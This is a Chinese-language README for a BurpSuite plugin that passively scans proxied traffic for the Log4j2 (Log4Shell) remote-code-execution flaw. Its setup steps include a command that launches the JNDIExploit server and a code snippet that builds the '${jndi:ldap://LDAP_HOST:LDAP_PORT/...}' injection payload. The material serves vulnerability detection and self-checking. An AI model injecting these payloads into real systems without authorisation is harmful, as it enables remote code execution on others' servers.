



# Log4j2 RCE Scanner

**作者**：key@元亨实验室

**声明**：由于传播、利用本项目所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，项目作者不为此承担任何责任。

**小广告**：实验室纳新招人，岗位方向有安全研究（攻防、漏洞）、威胁情报（APT分析）、内部安全（SDL、安全研发），简历投递至邮箱：c2VjdXJpdHlAemhvbmdmdS5uZXQ=

## 前言

这是一个用于扫描近期爆出的Log4j2 RCE漏洞的BurpSuite插件，其原理就是基于BurpSuite提供的被动式扫描API，对流经Burp Proxy模块的流量进行全量扫描，扫描作用域为：请求参数（JSON字段、正常请求参数、Cookie参数、XML字段、Mulitpart）、请求头（请求自带请求头与自定义请求头）。

它与其他插件的区别：

1. 一个点一个Payload（Hash区分），便于追踪漏洞位置；
2. 仅支持LDAP Log接口，不支持DNS扫描探测，便于快速定位有效漏洞位置进行自查自检；
3. 使用Python（Jython）编写，可以非常快速的进行二次开发、代码阅读，例如你可以改造这个项目为SQL注入、XSS盲打的探测插件；
4. 支持扫描作用域相对较全。

## 使用方法

1. **准备工作**：该插件用Python（Jython）所写，所以需要你的BurpSuite加载Jython的Jar包，下载地址：https://repo1.maven.org/maven2/org/python/jython-standalone/2.7.2/jython-standalone-2.7.2.jar ，BurpSuite加载位置：BurpSuite - Extender - Options - Python Environment - Location of Jython standalone JAR file。

2. **准备LDAP Log接口**：由于插件的特殊性，在不更改插件代码的情况下，建议你准备一台服务器，在上面部署LDAP服务并提供一个Web API给到插件，这里推荐[Command2API](https://github.com/gh0stkey/Command2API)项目，搭配JNDIExploit使用。

   ```python
   python Command2Api.py "java -jar JNDIExploit.v1.2/JNDIExploit-1.2-SNAPSHOT.jar -i 0.0.0.0" 9889
   ```

   

3. **填写配置**：下载Python文件到本地，存储在无空格、无特殊符号、无中文的目录下，接着替换如下代码：

   ```python
   # LDAP_API_HOST -> LDAP Log接口的主机地址（域名/IP，请注意内、外网环境）
   # LDAP_API_PORT -> LDAP Log接口的主机端口
   # LDAP_API_PORT -> LDAP Log接口的路由
   # 建议搭配Command2API项目一起使用，其他接口请自行更改代码
   url = "http://LDAP_API_HOST:LDAP_API_PORT/LDAP_API_ROUTE"
   # LDAP_HOST -> LDAP 服务的主机地址（域名/IP，请注意内、外网环境）
   # LDAP_PORT -> LDAP 服务的主机端口
   return self._helpers.urlEncode("${jndi:ldap://LDAP_HOST:LDAP_PORT/" + random_md5 + "}")
   ```

   

4. **加载插件**：BurpSuite加载位置：BurpSuite - Extender - Extensions - Burp Extensions - Add。

   

5. **开始扫描**：浏览器挂上BurpSuite代理，让流量流经BurpSuite，插件会自动扫描，或者你可以选择结合爬虫的方式将爬虫流量过到BurpSuite进行扫描。

6. **扫描结果**：扫描结果会在Burp Dashboard中展示出来，并且有具体的请求报文，如下图所示，分别是Command2API与LDAP服务接收的日志（**由于该漏洞的触发特殊性，建议对这些日志和BurpSuite流量进行保存**）以及Burp的扫描结果。

   

